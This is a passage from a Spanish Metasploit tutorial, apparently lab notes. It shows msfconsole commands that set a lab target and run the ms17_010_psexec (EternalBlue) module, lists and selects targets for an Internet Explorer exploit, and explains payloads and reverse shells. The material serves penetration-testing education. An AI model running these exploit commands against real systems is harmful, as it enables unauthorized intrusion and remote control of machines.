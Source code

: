 ```bash
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40
```
### Ejecución

```bash
msf6 exploit(windows/smb/ms17_010_psexec) > run
```

## Targets u objetivos

Los `Targets` son identificadores únicos de sistemas operativos tomados de las versiones de esos sistemas operativos específicos que adaptan el módulo de exploit seleccionado para ejecutarse en esa versión particular del sistema operativo. El comando `show targets` emitido dentro de la vista de un módulo de exploit mostrará todos los objetivos vulnerables disponibles para ese exploit específico, mientras que emitir el mismo comando en el menú raíz, fuera de cualquier módulo de exploit seleccionado, nos hará saber que necesitamos seleccionar un módulo de exploit primero.

Por ejemplo suponemos que tenemos un exploit en mente pero queremos saber a que versiones afecta.
Una vez seleccionado el exploit podemos realizar el siguiente comando y seleccionar el objetivo:

```bash
msf6 exploit(windows/browser/ie_execcommand_uaf) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Automatic
   1   IE 7 on Windows XP SP3
   2   IE 8 on Windows XP SP3
   3   IE 7 on Windows Vista
   4   IE 8 on Windows Vista
   5   IE 8 on Windows 7
   6   IE 9 on Windows 7


msf6 exploit(windows/browser/ie_execcommand_uaf) > set target 6

target => 6
```
Hay una gran variedad de tipos de objetivos. Cada objetivo puede variar de otro por el service pack, versión del sistema operativo, e incluso versión de idioma. Todo depende de la dirección de retorno y otros parámetros en el objetivo o dentro del módulo de exploit.

## Payloads

Un `Payload` en Metasploit se refiere a un módulo que ayuda al módulo de exploit (típicamente) a devolver una shell al atacante. Los payloads se envían junto con el exploit en sí para eludir los procedimientos de funcionamiento estándar del servicio vulnerable (`trabajo del exploit`) y luego se ejecutan en el sistema operativo objetivo para típicamente devolver una conexión inversa al atacante y establecer un punto de apoyo (`trabajo del payload`).
